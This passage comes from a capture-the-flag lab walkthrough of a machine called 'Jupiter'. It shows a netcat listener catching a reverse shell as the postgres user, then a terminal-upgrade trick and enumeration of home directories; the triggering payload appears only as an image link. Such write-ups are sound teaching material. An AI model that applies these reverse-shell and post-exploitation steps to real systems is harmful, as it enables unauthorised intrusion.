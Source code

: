 ![image-20230831162307047](https://0xdf.gitlab.io/img/image-20230831162307047.png)

On sending this, I get a shell at `nc`:

```
oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.216 51132
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
postgres@jupiter:/var/lib/postgresql/14/main$

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
postgres@jupiter:/var/lib/postgresql/14/main$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
postgres@jupiter:/var/lib/postgresql/14/main$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
postgres@jupiter:/var/lib/postgresql/14/main$

```

## Shell as juno

### Enumeration

#### Filesystem

The postgres user’s home directory is in `/var/lib/postgres`, and doesn’t have much interesting.

There are two users on the box with directories in `/home`:

```
postgres@jupiter:/home$ ls
jovian  juno
postgres@jupiter:/home$ ls */
ls: cannot open directory 'jovian/': Permission denied
ls: cannot open directory 'juno/': Permission denied

```

postgres can’t access either.

There’s an interesting directory in `/opt`, but postgres can’t access it, as it’s owned by jovian and in the science group:
